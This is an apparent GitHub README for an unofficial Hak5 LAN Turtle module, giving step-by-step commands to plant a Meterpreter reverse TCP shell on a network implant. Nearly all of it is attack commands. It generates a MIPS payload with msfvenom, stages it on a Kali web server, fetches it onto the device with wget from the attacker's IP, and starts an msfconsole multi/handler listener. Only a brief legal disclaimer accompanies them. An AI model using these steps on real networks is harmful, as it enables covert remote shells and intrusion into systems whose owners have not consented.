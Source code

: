 ## Unofficial custom Hak5 LAN Turtle Module - meterpreter-mipsbe-reverse-tcp

#### LEGAL DISCLAMER
    The author does not hold any responsibility for the use of this module. Remember that attacking
    targets without prior consent is illegal and punished by law. So use this module responsibly.

#### DOWNLOAD/INSTALL

**1 - On LAN Turtle: download module from github**<br />
<br />
`wget https://raw.githubusercontent.com/ATTACKnDEFEND/LanTurtle/main/meterpreter-mipsbe-reverse-tcp -O
/etc/turtle/modules/meterpreter-mipsbe-reverse-tcp`<br />
<br />
`chmod 755 /etc/turtle/modules/meterpreter-mipsbe-reverse-tcp`<br />

**3 - On Kali: generate Meterpreter payload with Msfvenom**<br />
<br />
`msfvenom -p linux/mipsbe/meterpreter_reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f elf > meterpreter-mipsbe-reverse-tcp`<br />
<br />
`sudo cp meterpreter-mipsbe-reverse-tcp /var/www/html/meterpreter-mipsbe-reverse-tcp`<br />

**4 - On LAN Turtle: transfer Meterpreter payload**<br />
<br />
`wget <KALI IP>/meterpreter-mipsbe-reverse-tcp -O /etc/turtle/meterpreter/meterpreter-mipsbe-reverse-tcp`<br />
<br />
`chmod 755 /etc/turtle/meterpreter/meterpreter-mipsbe-reverse-tcp`<br />

**5 - On Kali: start Meterpreter listerner**<br />
<br />
`sudo msfconsole -q -x "use exploit/multi/handler;set payload linux/mipsbe/meterpreter_reverse_tcp;set lhost <LHOST>;set LPORT <LPORT>;exploit -j"`<br />







